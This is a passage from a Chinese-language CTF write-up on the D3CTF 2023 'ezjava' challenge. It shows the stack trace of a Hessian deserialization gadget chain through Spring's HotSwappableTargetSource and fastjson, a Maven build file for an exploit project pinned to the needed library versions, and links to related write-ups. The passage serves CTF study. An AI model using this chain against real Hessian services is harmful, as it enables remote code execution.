at com.alibaba.fastjson2.writer.ObjectWriterImplMap.write(ObjectWriterImplMap.java:548)
at com.alibaba.fastjson2.JSON.toJSONString(JSON.java:2388)
at com.alibaba.fastjson.JSONObject.toString(JSONObject.java:1028)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at org.example.Result.toString(Result.java:44)
at org.example.Result.equals(Result.java:40)
at org.springframework.aop.target.HotSwappableTargetSource.equals(HotSwappableTargetSource.java:104)
at java.util.HashMap.putVal(HashMap.java:635)
at java.util.HashMap.put(HashMap.java:612)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:562)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2883)
at com.caucho.hessian.io.Hessian2Input.expect(Hessian2Input.java:3754)
at com.caucho.hessian.io.Hessian2Input.readString(Hessian2Input.java:1979)
at com.caucho.hessian.io.Hessian2Input.readObjectDefinition(Hessian2Input.java:2960)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2893)
at org.example.Exp2.Hessian2_unserialize(Exp2.java:116)
at org.example.Exp2.main(Exp2.java:85)
```



看到调用栈发现比exp1还多，而且是可以直接省去的，我怀疑出题人是🤡🤡🤡🤡，以为自己挖到新的 gadget 了

使用的 pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>D3CTF2023-Exploit</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.28.0-GA</version>
        </dependency>

        <dependency>
            <groupId>com.example</groupId>
            <artifactId>registry</artifactId>
            <version>0.0.1</version>
            <scope>system</scope>
            <systemPath>/Users/admin/Downloads/ezjava/registry/registry-0.0.1-SNAPSHOT.jar</systemPath>
        </dependency>

        <dependency>
            <groupId>com.example</groupId>
            <artifactId>server</artifactId>
            <version>0.0.1</version>
            <scope>system</scope>
            <systemPath>/Users/admin/Downloads/ezjava/server/server-0.0.1-SNAPSHOT.jar</systemPath>
        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>2.0.24</version>
        </dependency>

        <dependency>
            <groupId>com.alipay.sofa</groupId>
            <artifactId>hessian</artifactId>
            <version>4.0.4</version>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>9.0.62</version>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-el</artifactId>
            <version>9.0.62</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-webmvc</artifactId>
            <version>5.3.19</version>
        </dependency>
    </dependencies>
</project>
```

> https://pupil857.github.io/2023/05/03/d3ctf-ezjava/
>
> https://aecous.github.io/2023/10/04/D3CTF-x-AntCTF-2023-ezjava/
>
> https://exp10it.io/2023/05/hessian-cve-2021-43297-d3ctf-2023-ezjava/#d3ctf-2023-ezjava
